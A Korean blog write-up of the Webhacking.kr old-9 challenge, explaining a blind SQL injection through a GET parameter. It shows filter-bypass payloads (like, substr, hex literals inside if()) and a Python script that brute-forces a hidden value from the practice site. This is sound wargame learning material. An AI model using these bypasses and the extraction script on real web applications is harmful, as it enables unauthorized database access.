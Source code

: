 ```yaml
---
title: "Webhacking.kr challenge(old) 9th Write-Up"
tags: [blindsqli, wargame]
categories: [Web]
---
```


Webhacking.kr 9 Write-Up
------------------------

## **문제 분석**

이 문제의 경우 많은 걸 배울 수 있던 문제였습니다. 여태까지 해왔던 SQL Injection의 경우 입력 form을 target으로 진행된 반면, 
이번의 경우 정말 blind SQL Injection의 정석이라고 생각될 정도의 문제였습니다.

먼저 문제를 클릭하면 다음과 같은 화면을 먼저 볼 수 있었습니다.

![webhacking_kr_9_main](https://raw.githubusercontent.com/Jun-Project-LAB/Jun-Project-LAB.github.io/main/_image/webhacking_kr_9_main.png)

password를 제출하는 입력칸과 1, 2, 3 각각 hyperlink를 확인할 수 있었습니다. 먼저 각각의 hyperlink를 눌러서 확인해보면 1번은 Apple, 2번은 Banana가 출력되며 
3번의 경우 문제 해결 조건과 관련있을 법한 내용을 출력하였습니다.

![webhacking_kr_9_3](https://raw.githubusercontent.com/Jun-Project-LAB/Jun-Project-LAB.github.io/main/_image/webhacking_kr_9_3.png)

사진을 보면 알 수 있듯이 Secret이라고 되어 있으며 id, no 두 개의 column이 있고 no 3의 id가 password라고 되어 있습니다.

가장 먼저 찾을 수 있던 것은 no에 관한 것인데 hyperlink의 숫자가 URL의 GET 인자로 전달해주는 숫자와 일치하는 것을 확인할 수 있었습니다.

>*https://webhacking.kr/challenge/web-09/?no=3*
3을 눌러서 접속하였을 때의 URL

## **풀이 방법 찾기**

이 이후에 제대로 갈피를 잡지 못하고 main page에서 확인할 수 있던 입력 form에서 SQL Injection을 실시하였으나 이는 해결에 접근할 수 없었습니다.

풀이 방법을 찾아본 결과 입력 form이 아닌 no 인자를 전달하는 곳을 통해서 blind SQL Injection을 수행할 수 있었습니다.

풀이 방법을 보고 정말 정석적인 blind SQL Injection이라고 느끼게 된 점이 no 값에 1 ~ 3이 아닌 다른 값이 전달될 경우 제대로 페이지가 로딩 되지 않는 점을 이용하여 Injection을 수행하는 것이었습니다.

또한 필터링 되는 문자가 있을 경우 Access Denied 라는 문구가 출력되었습니다. 이를 위해서는 if문을 사용하였습니다.

- **if문 구조**

if문의 구조는 if(A, B, C)로 A의 결과가 참일 경우 B를, 거짓일 경우 C를 반환합니다. 이 문제의 경우 B에는 3, C에는 1, 2, 3이 아닌 다른 값을 입력하여 참과 거짓을 구분하였습니다.

여기서 비교를 위한 연산자인 =이 필터링 되어 like를 사용하여 값을 비교하였습니다. 또한 쿼리문에 공백이 있을 경우에도 Access Denied가 출력되었는데 이는 공백을 필터링한 것이 아닌 % 문자가 필터링 되기 때문에 공백이 URL Encoding되어 발생되는 것이었습니다.

따라서 다음과 같은 형식으로 해야 필터링을 우회할 수 있었습니다.

```python
?no=if(length(id)like(0),3,0)
```

이 때 페이지의 html code를 살펴보았을 때 form의 max length가 11이었기에 1부터 11까지를 범위로 잡고 진행하였습니다.

* * *

id의 길이는 11글자였으며 최종적으로 문자열을 알아낼 필요가 있었습니다. 자주 사용되는 함수인 substring을 입력하였을 때는 필터링 되었으나 substr로 입력할 경우 필터링 되지 않았기에 사용할 수 있는 것을 확인할 수 있었습니다.

문제는 %가 필터링 되기 때문에 single quotes와 double quotes도 사용할 수 없었기에 이를 우회할 방법이 필요했습니다. 또한 문자열과 관련되서 자주 사용되는 char, ascii, ord 함수도 모두 필터링 되었기 때문에 다른 방법을 사용할 필요가 있었는데 hex 값을 사용할 경우 query가 가능하다는 것을 알 수 있었습니다.

문자열을 추출하는 과정에서 %와 _ 문자도 포함되어 출력되었는데 이를 위해서 해당 문자들의 경우 생략하도록 작성하였습니다. 또한 대/소문자 구분을 하지 않아서 결과적으로 정상적인 결과는 아닌 값을 알 수 있을 정도의 결과물이 출력되었습니다.

작성한 코드는 다음과 같습니다.

```python
#!/usr/bin/python

import requests as req

url = "https://webhacking.kr/challenge/web-09/"
cookies = {"PHPSESSID":"1sufshmhf7a3l4p5pi8mh8nepq"}
ref = "Secret"
answer = ""

for a in range(1, 11+1):
    params = "?no=if(length(id)like({}),3,0)".format(a)
    requrl = url+params
    response = req.get(requrl, cookies=cookies)
    if ref in response.text:
        print("id length is \"{}\"".format(a))

for i in range(1, 11+1):
    for j in range(33, 126+1):
        if chr(j) == '%' or chr(j) == '_':
            continue
        key = hex(j)
        params = "?no=if(substr(id,{},1)like({}),3,0)".format(i, key)
        requrl = url+params
        response = req.get(requrl, cookies=cookies)
        if ref in response.text:
            answer += chr(j)


print("answer is \"{}\"".format(answer))
``` 
